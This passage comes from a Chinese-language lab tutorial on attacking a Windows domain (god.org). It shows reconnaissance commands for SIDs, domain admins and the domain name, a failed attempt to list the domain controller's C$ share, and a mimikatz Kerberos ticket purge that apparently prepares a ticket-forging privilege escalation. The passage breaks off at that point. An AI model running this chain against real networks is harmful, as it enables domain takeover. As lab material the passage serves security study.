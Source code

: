 采用这种方法，可以以普通域用户权限获取域内大部分用户的 SID，可以看到域 god.org 的域 SID 为：S-1-5-21-95064677-3481858386-3840636109。

2、获取当前用户的 SID：

```
whoami /user
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0rib0o81CVZIia3ibl5sK8Eiby4jEUpEaw7JDj8NiaIwbrL3qqmiaib2y84Fcg/640?wx_fmt=png)

得到的：  

```
USER INFORMATION
----------------

User Name SID
========= ==============================================
god\mary  S-1-5-21-1218902331-2157346161-1782232778-1124
```

3、查询域管理员账号：

```
net group "domain admins" /domain
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0m3zMnybjpdzMPF7vUHbDRicyCAmvm1WkzFydXJubYUrU1D8yMyFFm2g/640?wx_fmt=png)

得到的域管用户名是：Administrator。  

4、查询域名：

```
ipconfig /all
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0tpDa7pgEfibUFjwJgmN4m2a7bvqXHs7qI3wKtBqvR532Z8y0vfZKzeA/640?wx_fmt=png)

得到的域名为：god.org。

#### 3、实验操作

首先我们是无法查看到域控的共享信息的：

```
dir \\OWA2010CN-God\c$
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY033qE4dVib4jMYWFiaVZeOfoeygruntPoUGoVagrhTibpKvI4CpTZJUicyQ/640?wx_fmt=png)

1、清空内存  

使用 mimikatz 清空当前主机会话中的票据：

```
kerberos::purge
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LLjibhjardC4HjNckWL8oTY0YO3utbORjIFWsgDYkciaJvUoVgm5ZTWBMxLou0vkhQp5FrYQico4xx6g/640?wx_fmt=png)
